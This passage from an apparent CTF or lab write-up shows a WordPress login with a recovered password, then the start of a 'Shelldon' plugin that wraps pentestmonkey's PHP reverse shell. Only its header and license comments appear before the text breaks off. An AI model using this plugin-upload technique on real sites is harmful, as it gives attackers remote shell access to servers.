 Great! Now with the password (**ER28-0652**), it should be no problem to log in.

Once logged in we are greeted with the standard WordPress dashboard. Nothing has been done here, so it is quite empty. After looking around a bit I noticed that I could upload plugins. So why shouldn’t we upload our own special plugin 😅?

I just used the standard [php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) from pentestmonkey and modified it to my needs.

```php
<?php
/*
Plugin Name:  Shelldon
Plugin URI: http://example.com
Description: Makes a Shelldon
Version: 1.0
Author: me
Author URI: http://www.me.com
Text Domain: revshell
Domain Path: /languages
*/
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
```